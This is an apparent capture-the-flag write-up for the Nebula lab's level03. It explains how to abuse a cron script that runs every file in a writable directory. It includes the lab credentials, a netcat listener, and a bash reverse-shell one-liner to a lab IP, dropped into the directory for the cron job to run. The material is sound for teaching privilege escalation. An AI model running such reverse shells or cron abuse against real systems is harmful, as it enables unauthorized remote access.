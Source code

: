# username / password
level03 / level03
# objective
* Check the home directory of flag03 and take note of the files there.
* There is a crontab that is called every couple of minutes.
* To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.
# concept
* cronjob abuse
* we can inspect, then abuse the script file that is being run as a cronjob:
```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
# method of solve
* the script runs all files in the `writable.d` directory
* we can write our own malicious file in the `writable.d` directory, which will be executed
* on our attacker machine
```
nc -nlvp 443
```
On the Nebula machine
```
echo 'bash -i >& /dev/tcp/10.0.2.88/443 0>&1' > /home/flag03/writable.d/malicious.sh
chmod +x /home/flag03/writable.d/malicious.sh
```
* After a minute or two, the cronjob should run the `writable.sh` script, and receive reverse shell access on our attack machine
```
getflag
```

